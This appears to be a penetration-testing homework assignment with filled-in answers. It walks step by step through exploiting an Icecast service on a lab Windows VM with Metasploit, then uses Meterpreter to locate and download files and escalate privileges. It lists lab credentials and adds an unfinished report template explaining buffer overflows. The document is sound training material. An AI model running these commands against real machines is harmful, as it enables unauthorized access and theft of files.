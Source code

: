 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: searchsploit icecast

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: msfconsole
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: search icecast
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: use 0
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: set RHOST 192.168.0.20
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: exploit
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: dir *secretfile*.txt /s /p
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: dir *recipe*.txt /s /p
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: download "C:\Users\IEUser\Documents\user.recipe.txt"
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_logged_on_users 
 
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: getsystem
 
C. Run the command that displays the target's computer system information:

   > Answer: sysinfo



---

GoodSecurity Penetration Test Report 

PETERMURPHY@GoodSecurity.com

February 6, 2021



















---
1.0	High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.
When performing the internal penetration test, there were several alarming vulnerabilities that were
identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploit two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.














2.0	Findings

Machine IP: 192.168.0.200
Hostname: MSEDGEWIN10
Vulnerability Exploited: buffer overflow
Vulnerability Explanation:
In information security and programming, a buffer overflow, or buffer overrun, is an anomaly where a program, while writing data to a buffer, overruns the buffer's boundary and overwrites adjacent memory locations.
Buffers are areas of memory set aside to hold data, often while moving it from one section of a program to another, or between programs. Buffer overflows can often be triggered by malformed inputs; if one assumes all inputs will be smaller than a certain size and the buffer is created to be that size, then an anomalous transaction that produces more data could cause it to write past the end of the buffer. If this overwrites adjacent data or executable code, this may result in erratic program behavior, including memory access errors, incorrect results, and crashes.
Exploiting the behavior of a buffer overflow is a well-known security exploit. On many systems, the memory layout of a program, or the system, is well defined. By sending in data designed to cause a buffer overflow, it is possible to write into areas known to hold executable code and replace it with malicious code, or to selectively overwrite data pertaining to the program's state, therefore causing behavior that was not intended by the original programmer. Buffers are widespread in operating system (OS) code, so it is possible to make attacks that perform privilege escalation and gain unlimited access to the computer's resources. The famed Morris worm in 1988 used this as one of its attack techniques.
Severity:
Buffer overflows typically have a high severity ranking because they can lead to unauthorized code execution in cases where attackers can control the overwritten memory space outside the targeted buffer and can redirect a function pointer to their malicious code.
Proof of Concept:









3.0	Recommendations

What recommendations would you give to GoodCorp?
